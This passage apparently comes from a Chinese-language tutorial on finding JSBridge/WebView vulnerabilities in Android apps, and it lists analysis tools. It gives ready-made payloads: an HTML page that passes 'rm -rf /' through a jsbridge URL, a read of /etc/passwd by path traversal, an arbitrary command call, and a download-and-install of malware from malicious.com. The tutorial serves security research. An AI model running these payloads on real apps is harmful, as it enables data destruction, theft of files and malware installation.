 利用 URL 拦截模式，传递恶意命令：  
```
<!DOCTYPE html>
<html>
<head>
    <title>Command Injection</title>
</head>
<body>
    <script>
        // 模拟 URL 拦截方式调用接口
        window.location.href = "jsbridge://execute?command=rm -rf /";
    </script>
</body>
</html>

```  
  
**预期结果**  
  
攻击命令被执行，导致系统文件被删除或篡改。  
## 4.3 常用 Payload  
##   
  
在漏洞挖掘过程中，我们需要根据目标接口和场景构造针对性的 Payload：  
##### Payload 示例 1：目录遍历与文件读取  
  
针对文件读取接口：  
```
window.Android.readFile("../../etc/passwd");

```  
##### Payload 示例 2：任意命令执行  
  
针对命令执行接口：  
```
window.Android.executeCommand("ls /data/data/com.vulnerable.app/");

```  
##### Payload 示例 3：恶意下载与安装  
  
通过暴露的下载接口，将恶意应用下载并安装：  
```
window.Android.downloadAndInstall("http://malicious.com/malware.apk");

```  
##   
#### 4.4 漏洞挖掘工具推荐  
####   
- **静态分析**  
    - **JADX：反编译 APK，分析代码结构。**  
    - **Apktool：解压与重编译 APK，便于修改代码和重新打包。**  
  
- **JADX：反编译 APK，分析代码结构。**  
- **Apktool：解压与重编译 APK，便于修改代码和重新打包。**  
- **动态调试**  
    - **Frida：Hook 方法调用，拦截参数与返回值。**  
    - **Xposed：对应用运行时行为进行模块化劫持与修改。**  
  